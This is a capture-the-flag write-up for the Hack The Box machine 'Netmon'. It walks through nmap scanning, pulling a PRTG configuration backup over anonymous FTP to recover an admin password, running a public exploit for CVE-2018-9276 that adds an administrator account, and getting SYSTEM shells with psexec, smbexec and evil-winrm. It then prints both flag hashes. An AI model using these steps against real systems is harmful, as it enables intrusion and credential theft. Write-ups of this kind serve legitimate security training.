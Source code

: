 ```yaml
---
layout: post
title: Netmon
tags: [OSCP, Writeup, Windows, Web, Outdated Software, File Misconfiguration]
description: "Netmon write-up"
---
```


![Netmonlogo](/assets/imgs/netmon/netmon.png)

### This is an easy windows box

## Tools used

------

- bash
- evil-winrm
- ftp
- nmap
- psexec
- searchsploit
- wget


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA netmon 10.10.10.152 -v

PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7m01s, deviation: 0s, median: 7m01s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-04T09:25:49
|_  start_date: 2020-08-04T08:37:26
```

Here’s what nmap teaches us :

- port 21 (FTP) - Anonymous login
- port 80 (HTTP) - Indy httpd 18.1.37.13946
- port 135 (RPC)
- port 139 (NETBIOS)
- port 445 (SMB) - Windows Server 2008 R2 - 2012

Since the anonymous login is open, let's connect. To go to the FTP I used the browser :

![FTP connected](/assets/imgs/netmon/ftp_connect.PNG)

I see the Users directory, browsing it, I found the user.txt flag !

![FTP flag](/assets/imgs/netmon/ftp.PNG)

Let's see the web port :

![Website](/assets/imgs/netmon/web.PNG)

I need credentials to go further, I found out that the default login is "prtgadmin", now I needed a password. Searching where the password was stored for this software, I stumble upon this [reddit](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) :

```
Automatically generated backups under:
	C:\ProgramData\Paessler\PRTG Network Monitor\Configuration Auto-Backups\

Automatically generated temporary files that may exist:
	C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old
	C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.nul
```

With the FTP connection I found those files.

![Config file prtg](/assets/imgs/netmon/config_files.PNG)

I download all the configuration files but the interesting one is this one :

```
wget "ftp://10.10.10.152/ProgramData/Paessler/PRTG Network Monitor/PRTG Configuration.old.bak"
```

```
strings "PRTG Configuration.old.bak" | grep -i prtgadmin -C 1
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
              
                <login>
                  prtgadmin
                </login>
```

I now have credentials :

```
login : prtgadmin
password : PrTg@dmin2018
```

I tried to connect to the website with those credentials, but it didn't works !

## Exploit

------

Then I remember that the box was release in 2019, so I change the password by "PrTg@dmin2019" and it works.

![Website connected](/assets/imgs/netmon/connect_web.PNG)

Now that I'm connected, let's see if there is known exploits :

![Searchsploit prtg](/assets/imgs/netmon/searchsploit.PNG)

There is an authenticated RCE, download the exploit :

```
searchsploit -m windows/webapps/46527.sh
```

Then run it with the rights parameters :

```
bash 46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=ezRGMjU3MzU5LTJCNDMtNEYzOC05M0EyLUIwNzc4ODQxMzFGOH0="

[+]#########################################################################[+] 
[*] PRTG RCE script by M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] https://github.com/M4LV0                                                [*] 
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution  CVE-2018-9276 [*] 
[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....

 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

Now that the exploit completed, I have user and a password to connect with.

```
smbexec.py 'pentest:P3nT3st!@10.10.10.152' 
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

or

```
psexec.py 'pentest:P3nT3st!@10.10.10.152'
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file kDxiGmrG.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service zAqT on 10.10.10.152.....
[*] Starting service zAqT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

or

```
evil-winrm -i 10.10.10.152 -u "pentest" -p 'P3nT3st!'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\pentest\Documents> whoami
netmon\pentest
```

I can now read the root flag !

## Flags

------

### User.txt

```
dd58ce67b49e15105e88096c8d9255a5
```

### Root.txt

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
3018977fb944bf1878f75b879fba67cc
```